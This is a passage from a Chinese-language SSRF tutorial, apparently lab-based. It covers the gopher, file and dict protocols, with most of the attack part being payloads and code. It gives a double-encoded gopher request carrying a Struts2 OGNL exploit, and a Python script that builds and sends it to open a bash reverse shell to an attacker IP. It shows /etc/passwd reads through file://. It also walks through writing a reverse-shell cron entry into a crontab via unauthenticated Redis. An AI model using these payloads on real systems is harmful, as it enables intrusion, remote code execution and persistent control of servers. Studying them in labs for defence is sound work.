

编码后如下，两次url编码

```plain
http://192.168.173.88/?url=gopher://172.17.0.2:8080/_GET%2520/%2520HTTP/1.1%250D%250AHost:172.17.0.2:8080%250D%250AContent-Type:%25%32%35%25%37%62%25%32%38%25%32%33%25%35%66%25%33%64%25%32%37%25%36%64%25%37%35%25%36%63%25%37%34%25%36%39%25%37%30%25%36%31%25%37%32%25%37%34%25%32%66%25%36%36%25%36%66%25%37%32%25%36%64%25%32%64%25%36%34%25%36%31%25%37%34%25%36%31%25%32%37%25%32%39%25%32%65%25%32%38%25%32%33%25%36%34%25%36%64%25%33%64%25%34%30%25%36%66%25%36%37%25%36%65%25%36%63%25%32%65%25%34%66%25%36%37%25%36%65%25%36%63%25%34%33%25%36%66%25%36%65%25%37%34%25%36%35%25%37%38%25%37%34%25%34%30%25%34%34%25%34%35%25%34%36%25%34%31%25%35%35%25%34%63%25%35%34%25%35%66%25%34%64%25%34%35%25%34%64%25%34%32%25%34%35%25%35%32%25%35%66%25%34%31%25%34%33%25%34%33%25%34%35%25%35%33%25%35%33%25%32%39%25%32%65%25%32%38%25%32%33%25%35%66%25%36%64%25%36%35%25%36%64%25%36%32%25%36%35%25%37%32%25%34%31%25%36%33%25%36%33%25%36%35%25%37%33%25%37%33%25%33%66%25%32%38%25%32%33%25%35%66%25%36%64%25%36%35%25%36%64%25%36%32%25%36%35%25%37%32%25%34%31%25%36%33%25%36%33%25%36%35%25%37%33%25%37%33%25%33%64%25%32%33%25%36%34%25%36%64%25%32%39%25%33%61%25%32%38%25%32%38%25%32%33%25%36%33%25%36%66%25%36%65%25%37%34%25%36%31%25%36%39%25%36%65%25%36%35%25%37%32%25%33%64%25%32%33%25%36%33%25%36%66%25%36%65%25%37%34%25%36%35%25%37%38%25%37%34%25%35%62%25%32%37%25%36%33%25%36%66%25%36%64%25%32%65%25%36%66%25%37%30%25%36%35%25%36%65%25%37%33%25%37%39%25%36%64%25%37%30%25%36%38%25%36%66%25%36%65%25%37%39%25%32%65%25%37%38%25%37%37%25%36%66%25%37%32%25%36%62%25%33%32%25%32%65%25%34%31%25%36%33%25%37%34%25%36%39%25%36%66%25%36%65%25%34%33%25%36%66%25%36%65%25%37%34%25%36%35%25%37%38%25%37%34%25%32%65%25%36%33%25%36%66%25%36%65%25%37%34%25%36%31%25%36%39%25%36%65%25%36%35%25%37%32%25%32%37%25%35%64%25%32%39%25%32%65%25%32%38%25%32%33%25%36%66%25%36%37%25%36%65%25%36%63%25%35%35%25%37%34%25%36%39%25%36%63%25%33%64%25%32%33%25%36%33%25%36%66%25%36%65%25%37%34%25%36%31%25%36%39%25%36%65%25%36%35%25%37%32%25%32%65%25%36%37%25%36%35%25%37%34%25%34%39%25%36%65%25%37%33%25%37%34%25%36%31%25%36%65%25%36%33%25%36%35%25%32%38%25%34%30%25%36%33%25%36%66%25%36%64%25%32%65%25%36%66%25%37%30%25%36%35%25%36%65%25%37%33%25%37%39%25%36%64%25%37%30%25%36%38%25%36%66%25%36%65%25%37%39%25%32%65%25%37%38%25%37%37%25%36%66%25%37%32%25%36%62%25%33%32%25%32%65%25%36%66%25%36%37%25%36%65%25%36%63%25%32%65%25%34%66%25%36%37%25%36%65%25%36%63%25%35%35%25%37%34%25%36%39%25%36%63%25%34%30%25%36%33%25%36%63%25%36%31%25%37%33%25%37%33%25%32%39%25%32%39%25%32%65%25%32%38%25%32%33%25%36%66%25%36%37%25%36%65%25%36%63%25%35%35%25%37%34%25%36%39%25%36%63%25%32%65%25%36%37%25%36%35%25%37%34%25%34%35%25%37%38%25%36%33%25%36%63%25%37%35%25%36%34%25%36%35%25%36%34%25%35%30%25%36%31%25%36%33%25%36%62%25%36%31%25%36%37%25%36%35%25%34%65%25%36%31%25%36%64%25%36%35%25%37%33%25%32%38%25%32%39%25%32%65%25%36%33%25%36%63%25%36%35%25%36%31%25%37%32%25%32%38%25%32%39%25%32%39%25%32%65%25%32%38%25%32%33%25%36%66%25%36%37%25%36%65%25%36%63%25%35%35%25%37%34%25%36%39%25%36%63%25%32%65%25%36%37%25%36%35%25%37%34%25%34%35%25%37%38%25%36%33%25%36%63%25%37%35%25%36%34%25%36%35%25%36%34%25%34%33%25%36%63%25%36%31%25%37%33%25%37%33%25%36%35%25%37%33%25%32%38%25%32%39%25%32%65%25%36%33%25%36%63%25%36%35%25%36%31%25%37%32%25%32%38%25%32%39%25%32%39%25%32%65%25%32%38%25%32%33%25%36%33%25%36%66%25%36%65%25%37%34%25%36%35%25%37%38%25%37%34%25%32%65%25%37%33%25%36%35%25%37%34%25%34%64%25%36%35%25%36%64%25%36%32%25%36%35%25%37%32%25%34%31%25%36%33%25%36%33%25%36%35%25%37%33%25%37%33%25%32%38%25%32%33%25%36%34%25%36%64%25%32%39%25%32%39%25%32%39%25%32%39%25%32%65%25%32%38%25%32%33%25%36%33%25%36%64%25%36%34%25%33%64%25%32%37%25%36%32%25%36%31%25%37%33%25%36%38%25%32%30%25%32%64%25%36%39%25%32%30%25%33%65%25%32%36%25%32%30%25%32%66%25%36%34%25%36%35%25%37%36%25%32%66%25%37%34%25%36%33%25%37%30%25%32%66%25%33%31%25%33%39%25%33%32%25%32%65%25%33%31%25%33%36%25%33%38%25%32%65%25%33%31%25%33%37%25%33%33%25%32%65%25%33%31%25%33%32%25%33%39%25%32%66%25%33%32%25%33%33%25%33%33%25%33%33%25%32%30%25%33%30%25%33%65%25%32%36%25%33%31%25%32%37%25%32%39%25%32%65%25%32%38%25%32%33%25%36%39%25%37%33%25%37%37%25%36%39%25%36%65%25%33%64%25%32%38%25%34%30%25%36%61%25%36%31%25%37%36%25%36%31%25%32%65%25%36%63%25%36%31%25%36%65%25%36%37%25%32%65%25%35%33%25%37%39%25%37%33%25%37%34%25%36%35%25%36%64%25%34%30%25%36%37%25%36%35%25%37%34%25%35%30%25%37%32%25%36%66%25%37%30%25%36%35%25%37%32%25%37%34%25%37%39%25%32%38%25%32%37%25%36%66%25%37%33%25%32%65%25%36%65%25%36%31%25%36%64%25%36%35%25%32%37%25%32%39%25%32%65%25%37%34%25%36%66%25%34%63%25%36%66%25%37%37%25%36%35%25%37%32%25%34%33%25%36%31%25%37%33%25%36%35%25%32%38%25%32%39%25%32%65%25%36%33%25%36%66%25%36%65%25%37%34%25%36%31%25%36%39%25%36%65%25%37%33%25%32%38%25%32%37%25%37%37%25%36%39%25%36%65%25%32%37%25%32%39%25%32%39%25%32%39%25%32%65%25%32%38%25%32%33%25%36%33%25%36%64%25%36%34%25%37%33%25%33%64%25%32%38%25%32%33%25%36%39%25%37%33%25%37%37%25%36%39%25%36%65%25%33%66%25%37%62%25%32%37%25%36%33%25%36%64%25%36%34%25%32%65%25%36%35%25%37%38%25%36%35%25%32%37%25%32%63%25%32%37%25%32%66%25%36%33%25%32%37%25%32%63%25%32%33%25%36%33%25%36%64%25%36%34%25%37%64%25%33%61%25%37%62%25%32%37%25%32%66%25%36%32%25%36%39%25%36%65%25%32%66%25%36%32%25%36%31%25%37%33%25%36%38%25%32%37%25%32%63%25%32%37%25%32%64%25%36%33%25%32%37%25%32%63%25%32%33%25%36%33%25%36%64%25%36%34%25%37%64%25%32%39%25%32%39%25%32%65%25%32%38%25%32%33%25%37%30%25%33%64%25%36%65%25%36%35%25%37%37%25%32%30%25%36%61%25%36%31%25%37%36%25%36%31%25%32%65%25%36%63%25%36%31%25%36%65%25%36%37%25%32%65%25%35%30%25%37%32%25%36%66%25%36%33%25%36%35%25%37%33%25%37%33%25%34%32%25%37%35%25%36%39%25%36%63%25%36%34%25%36%35%25%37%32%25%32%38%25%32%33%25%36%33%25%36%64%25%36%34%25%37%33%25%32%39%25%32%39%25%32%65%25%32%38%25%32%33%25%37%30%25%32%65%25%37%32%25%36%35%25%36%34%25%36%39%25%37%32%25%36%35%25%36%33%25%37%34%25%34%35%25%37%32%25%37%32%25%36%66%25%37%32%25%35%33%25%37%34%25%37%32%25%36%35%25%36%31%25%36%64%25%32%38%25%37%34%25%37%32%25%37%35%25%36%35%25%32%39%25%32%39%25%32%65%25%32%38%25%32%33%25%37%30%25%37%32%25%36%66%25%36%33%25%36%35%25%37%33%25%37%33%25%33%64%25%32%33%25%37%30%25%32%65%25%37%33%25%37%34%25%36%31%25%37%32%25%37%34%25%32%38%25%32%39%25%32%39%25%32%65%25%32%38%25%32%33%25%37%32%25%36%66%25%37%33%25%33%64%25%32%38%25%34%30%25%36%66%25%37%32%25%36%37%25%32%65%25%36%31%25%37%30%25%36%31%25%36%33%25%36%38%25%36%35%25%32%65%25%37%33%25%37%34%25%37%32%25%37%35%25%37%34%25%37%33%25%33%32%25%32%65%25%35%33%25%36%35%25%37%32%25%37%36%25%36%63%25%36%35%25%37%34%25%34%31%25%36%33%25%37%34%25%36%39%25%36%66%25%36%65%25%34%33%25%36%66%25%36%65%25%37%34%25%36%35%25%37%38%25%37%34%25%34%30%25%36%37%25%36%35%25%37%34%25%35%32%25%36%35%25%37%33%25%37%30%25%36%66%25%36%65%25%37%33%25%36%35%25%32%38%25%32%39%25%32%65%25%36%37%25%36%35%25%37%34%25%34%66%25%37%35%25%37%34%25%37%30%25%37%35%25%37%34%25%35%33%25%37%34%25%37%32%25%36%35%25%36%31%25%36%64%25%32%38%25%32%39%25%32%39%25%32%39%25%32%65%25%32%38%25%34%30%25%36%66%25%37%32%25%36%37%25%32%65%25%36%31%25%37%30%25%36%31%25%36%33%25%36%38%25%36%35%25%32%65%25%36%33%25%36%66%25%36%64%25%36%64%25%36%66%25%36%65%25%37%33%25%32%65%25%36%39%25%36%66%25%32%65%25%34%39%25%34%66%25%35%35%25%37%34%25%36%39%25%36%63%25%37%33%25%34%30%25%36%33%25%36%66%25%37%30%25%37%39%25%32%38%25%32%33%25%37%30%25%37%32%25%36%66%25%36%33%25%36%35%25%37%33%25%37%33%25%32%65%25%36%37%25%36%35%25%37%34%25%34%39%25%36%65%25%37%30%25%37%35%25%37%34%25%35%33%25%37%34%25%37%32%25%36%35%25%36%31%25%36%64%25%32%38%25%32%39%25%32%63%25%32%33%25%37%32%25%36%66%25%37%33%25%32%39%25%32%39%25%32%65%25%32%38%25%32%33%25%37%32%25%36%66%25%37%33%25%32%65%25%36%36%25%36%63%25%37%35%25%37%33%25%36%38%25%32%38%25%32%39%25%32%39%25%37%64%25%30%44%25%30%41
```

访问之后成功获得nc反弹shell



为了方便大家二次编码，此处提供python3脚本工具

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
import urllib.parse, urllib.request

url = "http://192.168.173.88/?url="
# 可以被外部访问的地址
header = """gopher://172.17.0.2:8080/_GET / HTTP/1.1
Host:172.17.0.2:8080
Content-Type:"""
# 地址是内部的靶机地址
cmd = "bash -i >& /dev/tcp/192.168.173.129/2333 0>&1"
# nc的地址
content_type = """%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='"""+cmd+"""').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"""
# nc的地址需要改好
header_encoder = ""
content_type_encoder = ""
content_type_encoder_2 = ""
url_char = [" "]
nr = "\r\n"

# 编码请求头
for single_char in header:
    if single_char in url_char:
        header_encoder += urllib.parse.quote(urllib.parse.quote(single_char,'utf-8'),'utf-8')
    else:
        header_encoder += single_char

header_encoder = header_encoder.replace("\n",urllib.parse.quote(urllib.parse.quote(nr,'utf-8'),'utf-8'))

# 编码content-type，第一次编码
for single_char in content_type:
    # 先转为ASCII,在转十六进制即可变为URL编码
    content_type_encoder += str(hex(ord(single_char)))
content_type_encoder = content_type_encoder.replace("0x","%") + urllib.parse.quote(nr,'utf-8')
# 编码content-type，第二次编码
for single_char in content_type_encoder:
    # 先转为ASCII,在转十六进制即可变为URL编码
    content_type_encoder_2 += str(hex(ord(single_char)))
content_type_encoder_2 = content_type_encoder_2.replace("0x","%")
exp = url + header_encoder + content_type_encoder_2
print(exp)
request = urllib.request.urlopen(exp).read()
print(request)
```

##### 2.2.2.2 file

File协议是一种用于访问本地文件系统的URI协议，它允许通过URI来直接引用文件系统中的文件。

file协议可以查看本地的文件，如果存在ssrf漏洞的主机挂载了一些内网的资源，比如samba等，就可以借助ssrf漏洞访问内网的资源了

File协议的格式通常如下所示：

```plain
fifile:///path/to/file
```

其中file://表示使用File协议，/path/to/file表示文件在文件系统中的路径。在Windows系统上，路径可能包含驱动器号，例如：

```plain
file:///C:/path/to/file
```

使用File协议，可以在Web浏览器或其他支持URI协议的应用程序中打开本地文件。例如，在Web浏览器中输入文件的File URI，可以在浏览器中打开该文件。

```plain
curl -v 'file:///etc/passwd'
```



如下的url就可以访问ssrf漏洞的主机本地的文件

```plain
curl http://192.168.173.88/?url=file:///etc/passwd
```

##### 2.2.2.3 Dict协议

Dict协议是一种用于在互联网上查询字典和词典的URI 协议。它通常用于查询特定词汇的定义、拼写或同义词等相关信息。Dict 协议使用 TCP 端口 2628 进行通信。

Dict协议的URI格式通常如下所示：

```plain
dict://<hostname>:<port>/<database>/<strategy>:<word>
```

其中 &lt;hostname> 表示字典服务器的主机名或 IP 地址， &lt;port> 表示字典服务器的端口号， &lt;database> 表示

所要查询的词典名称， &lt;strategy> 表示查询策略， &lt;word> 表示要查询的词汇。

编写一个php脚本

curl_exec函数是危害最大的函数，也是需要重点讲的函数。以上代码是获取参数url的值，使用curl进行访问。

curl_exec的使用需要3个条件：

1. PHP版本>=5.3
2. 开启extension=php_curl.dll
3. --wite-curlwrappers（编译PHP时用，此时不需要，可忽略）

```php
<?php
$url = $_GET['url'];
$curlobj = curl_init($url);
echo curl_exec($curlobj);
?>
```

可以对内网IP地址扫描，在发现对应的端口之后，使用dict协议可以获取目标端口指纹

SSH服务的端口指纹

```plain
http://192.168.173.88/?url=dict://10.3.0.11:22
```



redis的端口指纹

redis是一种键值对数据库，在开发中常用作缓存数据库，缓存中会出现大量的敏感信息，比如用户登录的session，应用的api key等等，所以redis数据库发生数据泄漏，会导致很严重的后果。企业的redis数据库都会保护在内网中，不会对外开放的。

```bash
docker run -d --name redis registry.cn-hangzhou.aliyuncs.com/eagleslab/service:redis

# 查看容器的IP地址
docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' redis
```

访问如下地址，就可以探测redis端口指纹了

```bash
http://192.168.173.88/?url=dict://172.17.0.3:6379
```



可以使用dict协议执行命令，例如可以获取redis的变量

```bash
docker exec -it redis bash
root@88bf4f00b6db:/data# redis-cli
# 先在redis中配置一个变量
127.0.0.1:6379> set name <h1>eagle</h1>
OK
```

查询变量

```bash
http://192.168.173.88/?url=dict://172.17.0.3:6379/get:name
```



通过dict协议利用redis的未授权访问反弹shell

开启nc监听

```bash
nc -lp 2333
```

扩展知识

1. redis所有的数据都是存放在内存中的，那么一旦重启redis，数据就会全丢。
2. redis是可以支持数据持久化的，这个功能叫做RDB，启用了RDB之后，redis就会将键值数据保存在备份文件中。
3. 在redis中输入bgsave就会将键值数据保存到dir/dbfilename这个文件中。
4. 在redis中可以通过`set dir`和`set dbfilename`来改变这个RDB文件的存放位置。
5. 如果redis中有个值是`&lt;?php phpinfo();?>`，保存位置被我们改成了`/var/www/html/tz.php`那么就可以利用成功了。
6. 下面将会以Linux任务计划crontab的配置文件被篡改来说明。
7. crontab是Linux的任务计划，`/etc/contab`文件中写的命令会按照contab表达式的时间周期自动执行。

redis可以使用如下方式查看提交的内容

```bash
redis-cli
# 进入redis命令行模式

monitor
# 可以查看提交的内容，已经是否提交成功

keys *
# 查看所有的key

get name
# 查看name的值

config get dir
# 查看config中dir的值
```


先访问如下地址，写入一个键值对`mars:"\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/192.168.173.129/2333 0>&1\n\n"`

```plain
# 实测payload中如果带有空格，就无法成功，但是可以转换为16进制来绕过
# 这里使用浏览器访问可能会有语法错误提示，以下面是否写入成功为准
http://192.168.173.88/?url=dict://172.17.0.3:6379/set:mars:"\n\n\x2a/1\x20\x2a\x20\x2a\x20\x2a\x20\x2a\x20/bin/bash\x20\x2di\x20\x3e\x26\x20/dev/tcp/192.168.173.129/2333\x200\x3e\x261\n\n"
```

可以在redis容器里面查看是否写入成功

```bash
root@88bf4f00b6db:/data# redis-cli
127.0.0.1:6379> get mars
"\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/192.168.173.129/2333 0>&1\n\n"
```

下面修改`dir`和`dbfilename`两个值

```bash
http://192.168.173.88/?url=dict://172.17.0.3:6379/config:set:dir:/etc/
# 注意容器中/etc目录下并没有写入权限，此处可以使用/tmp来做测试
# http://192.168.173.88/?url=dict://172.17.0.3:6379/config:set:dir:/tmp/

# 查看一下redis中是否更换结束
127.0.0.1:6379> config get dir
1) "dir"
2) "/etc"

http://192.168.173.88/?url=dict://172.17.0.3:6379/config:set:dbfilename:crontab

127.0.0.1:6379> config get dbfilename
1) "dbfilename"
2) "crontab"
```

然后使用RDB数据保存下来的命令

```bash
http://192.168.173.88/?url=dict://172.17.0.3:6379/bgsave

# 查看一下容器中的/tmp目录下是否成功看到payload
root@e8d143487e83:/data# cat /tmp/crontab
mars@B

*/1 * * * * /bin/bash -i >& /dev/tcp/192.168.173.129/2333 0>&1

�3���b��
```


### 2.3 利用相关

#### 2.3.1 实现攻击

可以对外网、服务器所在内网、本地进行端口扫描，获取一些服务的banner信息

攻击运行在内网或本地的应用程序（比如溢出）

对内网WEB应用进行指纹识别，通过访问默认文件实现

攻击内外网的web应用，主要是使用GET参数就可以实现的攻击（比如Struts2，sqli等）

利用file协议读取本地文件等

#### 2.3.2 可能存在漏洞的位置

能够对外发起网络请求的地方，就可能存在SSRF漏洞

数据库内置功能（Oracle、MongoDB、MSSQL、Postgres、CouchDB）

文件处理、编码处理、属性信息处理（ffmpeg、ImageMagic、DOCX、PDF、XML）

未公开的api实现及调用URL的功能

社交分享功能：获取超链接的标题等内容进行显示

转码服务：通过URL地址把原地址的网页内容调优使其适合手机屏幕浏览

在线翻译：给网址翻译对应网页的内容

图片加载/下载：例如富文本编辑器中的点击下载图片到本地；通过URL地址加载或下载图片

图片/文章收藏功能：主要其会取URL地址中title以及文本的内容作为显示以求一个好的用户体验

云服务厂商：它会远程执行一些命令来判断网站是否存活等，所以如果可以捕获相应的信息，就可以进行ssrf测试

网站采集，网站抓取的地方：一些网站会针对你输入的url进行一些信息采集工作

数据库内置功能：数据库的比如mongodb的copyDatabase函数

邮件系统：比如接收邮件服务器地址

编码处理, 属性信息处理，文件处理：比如ffpmg，ImageMagick，docx，pdf，xml处理器等

未公开的api实现以及其他扩展调用URL的功能：可以利用google语法加上这些关键字去寻找SSRF漏洞。 一些的url中的关键字：share、wap、url、link、src、source、target、u、3g、display、sourceURl、imageURL、domain……

### 2.4 实操

#### 2.4.1 ssrf_curl

```bash
http://d19.s.iproute.cn/vul/ssrf/ssrf_curl.php?
url=http://d19.s.iproute.cn/vul/ssrf/ssrf_info/info1.php
```



我们可以看到这个链接有一个URL参数， 单独拿出来访问



可以看到有这个对应内容， 如果我们把这个URL参数改成 `https://www.baidu.com/`可以看到内容发生了变化

